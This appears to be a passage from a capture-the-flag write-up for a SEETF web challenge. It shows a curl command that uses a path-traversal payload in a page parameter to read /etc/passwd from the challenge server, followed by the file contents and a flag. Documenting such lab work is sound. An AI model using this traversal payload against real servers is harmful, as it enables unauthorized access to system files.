 ![](Pasted%20image%2020220604215640.png)

The standard hacking protocol calls me to access `/etc/passwd`, as it is able to be read by any user. It is the file that provides the list of users in Linux, along with other details like their home directories.

```
(base) [hacker@hackerbook ~]$ curl http://sourcelessguessyweb.chall.seetf.sg:1337/?page=../../../etc/passwd

...

    let message = `
        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
SEE{2nd_fl4g_n33ds_RCE_g00d_luck_h4x0r}
    `.replace(/[^A-Za-z0-9!?]/g, ' ').trim();

...

```
